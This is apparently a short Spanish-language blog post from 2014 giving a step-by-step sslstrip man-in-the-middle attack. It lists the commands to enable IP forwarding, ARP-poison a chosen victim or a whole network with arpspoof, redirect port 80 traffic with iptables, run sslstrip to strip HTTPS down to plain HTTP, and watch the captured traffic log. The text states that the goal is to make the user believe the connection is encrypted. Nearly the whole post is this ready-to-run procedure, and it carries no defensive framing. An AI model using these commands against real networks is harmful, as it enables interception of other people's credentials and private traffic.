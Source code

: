 ```yaml
---
layout: post
title: "sslstrip"
date: 2014-04-03 15:38
comments: true
categories: 
---
```

Herramienta para engañar al usuario haciéndole pensar que se encuentra en un sitio de Internet con cifrado SSL [HTTPS], cuando en realidad todos los datos están siendo transmitidos en abierto [HTTP]. 

Configuración de reenvío de paquetes IP: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Envenenamiento ARP (paquete dsniff): 

>\# arpspoof -i eth0 -t ip_victima ip_router 

En caso de querer atacar toda la red, solo especificar la ip router: 

>\# arpspoof -i eth0 ip_router 

Redirección de puertos usando Iptables: 

>\# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 31715 

Al reiniciar el ordenador se borrará la regla, si se quiere borrar al momento cambiar "-A" por un "-D" en el comando anterior. 

Arrancar sslstrip y ponerlo a la escucha: 

>\# sslstrip -k -f -l 31715 -w archivo.log 

Visionar en tiempo real los paquetes capturados: 

>\#  tail -f archivo.log 

